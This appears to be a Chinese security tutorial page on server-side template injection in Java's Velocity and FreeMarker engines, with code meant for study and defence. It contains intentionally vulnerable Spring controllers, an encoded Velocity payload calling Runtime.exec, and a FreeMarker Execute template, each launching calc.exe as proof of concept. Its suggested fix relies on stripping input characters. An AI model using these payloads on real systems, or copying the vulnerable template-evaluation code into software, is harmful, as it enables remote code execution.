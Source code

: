 # SSTI

## Velocity

{% code title="SstiController.java" %}

```
package com.example.controller;
import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.Velocity;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

import java.io.StringWriter;

@RestController
public class SstiController {

    @RequestMapping("/ssti/velocity")
    public String  Velocity(@RequestParam(name = "content") String content) {
        Velocity.init();
        VelocityContext velocityContext = new VelocityContext();

        velocityContext.put("username", "test");

        StringWriter stringWriter = new StringWriter();
        Velocity.evaluate(velocityContext, stringWriter, "test", content);
        return stringWriter.toString();
    }
}
```

{% endcode %}

启动计算器

{% code title="payload" %}

```sh
/ssti/velocity?content=%23%73%65%74%20%28%24%65%78%70%20%3d%20%22%65%78%70%22%29%3b%24%65%78%70%2e%67%65%74%43%6c%61%73%73%28%29%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%22%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%63%61%6c%63%2e%65%78%65%22%29

=#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c calc.exe")
```

{% endcode %}

**修复代码**

为了防止 SSTI 漏洞，我们应该对用户输入进行严格的输入验证和过滤，避免在模板引擎中直接使用用户输入。在使用 Velocity 模板引擎时，还可以配置 Velocity 引擎，禁止使用 Velocity 中危险的函数和类，从而增加应用程序的安全性。

```java
public String  Velocity(@RequestParam(name = "content") String content) {
        VelocityEngine engine = new VelocityEngine();
        engine.setProperty(RuntimeConstants.RESOURCE_LOADER, "class");
        engine.setProperty("class.resource.loader.class", ClasspathResourceLoader.class.getName());
        engine.setProperty(RuntimeConstants.VM_PERM_ALLOW_INLINE_REPLACE_GLOBAL, true);
        engine.setProperty(RuntimeConstants.VM_LIBRARY, "");
        engine.init();

        // 过滤用户输入，只允许输入字母、数字、下划线和空格
        content = content.replaceAll("[^\\w\\s]", "");

        VelocityContext context = new VelocityContext();

        context.put("username", "test");

        StringWriter stringWriter = new StringWriter();
        engine.evaluate(context, stringWriter, "test", content);
        return stringWriter.toString();
    }
```



## FreeMarker

FreeMarker的攻击方式主要是利用模板本身的语法和功能。攻击者可以在FreeMarker模板文件中使用内置函数或变量来执行恶意代码，或者使用一些特殊的语法结构来绕过过滤或转义机制。

因此，攻击者通常会利用FreeMarker模板注入漏洞来上传或修改模板文件，以在后续的渲染中执行恶意代码。例如，攻击者可以上传一个包含恶意代码的FreeMarker模板文件，然后通过Web应用程序中的漏洞或访问控制不当等方式来触发渲染操作，从而导致恶意代码的执行。

{% code title="SstiController.java" %}

```
package com.example.controller;

import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;


@RestController
public class SstiController {

    @RequestMapping("/ssti/freemarker")
    public String freemarker() throws IOException, TemplateException {
        Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
        configuration.setClassForTemplateLoading(this.getClass(), "/templates");
        Template template = configuration.getTemplate("test.ftl");

        Map<String, Object> rootMap = new HashMap<String, Object>();
        rootMap.put("username", "passwd");
        StringWriter stringWriter = new StringWriter();
        template.process(rootMap, stringWriter);
        return stringWriter.toString();
    }
}
```

{% endcode %}

{% code title="test.ftl" %}

```
<!DOCTYPE html>
<html>
<head>
    <title>FreeMarker Injection Demo</title>
</head>
<body>

<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("cmd /c calc.exe") }

</body>
</html>
```

{% endcode %}

> 这个示例中的FreeMarker模板文件存在注入漏洞。具体来说，它使用FreeMarker的内置方法`freemarker.template.utility.Execute`来执行系统命令，并将结果输出到页面中。攻击者可以利用这个漏洞，在`ex()`方法中注入恶意的命令来执行任意代码。

![image-20230310161809365](../../.gitbook/assets/image-20230310161809365.png)